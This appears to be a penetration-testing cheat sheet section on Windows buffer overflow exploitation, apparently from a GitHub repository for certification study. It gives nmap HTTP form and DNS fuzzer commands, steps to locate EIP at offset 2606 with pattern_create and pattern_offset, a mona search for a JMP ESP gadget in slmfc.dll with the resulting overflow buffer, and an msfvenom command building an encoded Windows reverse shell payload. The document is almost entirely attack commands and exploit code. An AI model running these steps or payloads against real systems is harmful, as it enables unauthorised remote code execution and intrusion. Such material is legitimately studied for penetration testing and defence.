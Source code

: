 Buffer Overflows and Exploits
===================================================================================================================================
 
-   DEP and ASLR - Data Execution Prevention (DEP) and Address Space
    Layout Randomization (ASLR)
 
 
-   Nmap Fuzzers:
 
    -   NMap Fuzzer List  
        [https://nmap.org/nsedoc/categories/fuzzer.html](https://nmap.org/nsedoc/categories/fuzzer.html)
 
    -   NMap HTTP Form Fuzzer  
        nmap --script http-form-fuzzer --script-args
        'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}'
        -p 80 $ip
 
    -   Nmap DNS Fuzzer  
        nmap --script dns-fuzz --script-args timelimit=2h $ip -d
 
-   MSFvenom  
    [*https://www.offensive-security.com/metasploit-unleashed/msfvenom/*](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
 
-   Windows Buffer Overflows
 
    -   Controlling EIP
   
             locate pattern_create
             pattern_create.rb -l 2700
             locate pattern_offset
             pattern_offset.rb -q 39694438
 
    -   Verify exact location of EIP - [\*] Exact match at offset 2606
 
            buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90
 
    -   Check for “Bad Characters” - Run multiple times 0x00 - 0xFF
 
    -   Use Mona to determine a module that is unprotected
 
    -   Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP
 
    -   Use NASM to determine the HEX code for a JMP ESP instruction
 
            /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
 
            JMP ESP  
            00000000 FFE4 jmp esp
 
    -   Run Mona in immunity log window to find (FFE4) XEF command
 
            !mona find -s "\xff\xe4" -m slmfc.dll  
            found at 0x5f4a358f - Flip around for little endian format
            buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390
 
    -   MSFVenom to create payload
   
            msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
 